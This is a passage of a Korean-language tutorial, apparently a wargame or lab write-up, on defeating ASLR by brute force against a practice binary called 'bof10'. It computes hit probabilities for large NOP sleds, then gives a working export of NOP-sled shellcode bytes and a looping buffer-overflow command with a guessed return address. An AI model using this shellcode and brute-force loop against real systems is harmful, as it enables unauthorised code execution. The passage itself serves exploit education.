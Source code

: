 6. `SHELLCODE` 환경변수가 `0x00000000` 부터 `0xffffffff` 까지 위치할 수 있다고 생각한다면, 쉘코드가 실행될 확률은 `(11 / 0xffffffff) * 100` 이라고 할 수 있다. 이 값은 **0.000000256%** 정도의 확률이다.

## brute-force 로 ASLR 우회 

7. 아니, 그러면 `NOP` 를 많이 넣으면 넣을수록 이 쉘코드가 실행될 확률이 높아지는 게 아닐까. 

    - `NOP` 코드 **1000** 바이트 삽입 시 쉘코드가 실행될 확률 

		- `(1001 / 0xffffffff) * 100 = 0.0000233%`

    - `NOP` 코드 **100,000** 바이트 삽입 시 쉘코드가 실행될 확률 

		- `(100001 / 0xffffffff) * 100 = 0.0233%`

8. 그런데 `./bof10` 을 계속 실행하면서 `SHELLCODE` 의 주소값을 관찰해보면 주소값이 `0xff8-----` 부터 `0xfff-----` 까지의 범위를 갖는다고 유추할 수 있다. 환경변수는 커널 코드 밑에 위치하고 환경변수 밑에는 바로 스택이 쌓이기 때문에 `0x00000000` 부터 `0xffffffff` 까지의 주소 영역을 가질 수는 없어 보인다. 그렇기 때문에 `SHELLCODE` 변수가 위치할 영역을 좀 더 작게 유추해보고 확률을 다시 계산해보자. 

    - `0xff800000` 부터 `0xffffffff` 의 영역의 길이 

		- `0xffffffff - 0xff800000 = 0x7fffff` 

    - `NOP` 코드 **1000** 바이트 삽입 시 쉘코드가 실행될 확률 

		- `(1001 / 0x7fffff) * 100 = 0.0119%`

    - `NOP` 코드 **100,000** 바이트 삽입 시 쉘코드가 실행될 확률 

		- `(100001 / 0x7fffff) * 100 = 1.192%`

9. 만약 `NOP` 코드를 **10만** 바이트, 즉 **100 KB** 를 삽입하였을 때 쉘코드가 실행될 확률은 약 **1.2 %** 까지 높아진다. 

## NOP 코드 최대 길이 

10. 그러면 환경변수에 `NOP` 코드를 어느정도까지 삽입할 수 있을까? **Ubuntu 16.04 x64** 환경에서 실험했을 때 **13만 바이트**까지 삽입할 수 있었다. 그러면 **13만 바이트**의 `NOP` 코드를 삽입할 경우 쉘코드가 실행될 확률은 다음과 같다. 

    - `NOP` 코드 10,0000 바이트 삽입 시 쉘코드가 실행될 확률 

		- `(130001 / 0x7fffff) * 100 = 1.549%`

11. **1.5%** 정도면 충분히 유의미한 확률이기 때문에 브루트 포스(brute-force) 공격이 가능하다. 

## brute-force exploit

12. 먼저 `SHELLCODE` 환경변수를 다음과 같이 생성하자. 

    ```console
    export SHELLCODE=`python -c "print '\x90'*130000 + '\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81'"`
    ```
    
13. 그리고 `buf` 와 `return address` 까지의 거리를 계산하자. 결국 `20` 바이트라는 것을 알게 되는데, 이 `20` 바이트 이후에 `SHELLCODE` 환경변수의 주소값을 `0xff800000` 과 `0xffffffff` 사이의 적당한 값으로 덮어쓰고 `while` 문을 사용해서 다음과 같이 계속 때려맞춰보자. 

    ```console
    while : ; do ; ./bof10 `python -c "print 'a'*20 + '\x36\x4c\xc6\xff'"` ; done
    ```
